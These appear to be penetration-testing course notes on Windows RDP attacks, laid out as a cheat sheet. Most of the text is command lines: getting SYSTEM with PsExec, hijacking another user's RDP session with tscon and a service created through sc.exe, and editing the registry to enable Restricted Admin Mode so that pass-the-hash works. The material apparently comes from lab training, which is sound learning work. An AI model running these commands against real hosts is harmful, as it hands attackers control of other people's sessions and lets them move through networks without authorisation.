 ## **Protocol Specific Attacks**

### **RDP Session Hijacking**

**Example**

![image.png](../Images/ACS_image0.png)

**Note**: You need to have SYSTEM privileges to execute this attack successfully

**Getting SYSTEM Privileges with PsExec.exe (SysInternals)**

```
PsExec.exe -i -s cmd.exe
```

**Hijack a session using tscon.exe**

```
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

**Getting SYSTEM Privileges and hijack a session with sc.exe**

```
C:\htb> query user
  USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME

> juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
  lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
C:\htb> net start sessionhijack
```

*Note: This method no longer works on Server 2019*

### **RDP Pass-the-Hash (PtH)**

There are a few caveats to this attack:

Restricted Admin Mode, which is disabled by default, should be enabled on the target host;

**Enable Restricted Admin Mode to Allow PtH**

```
c:\tools> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
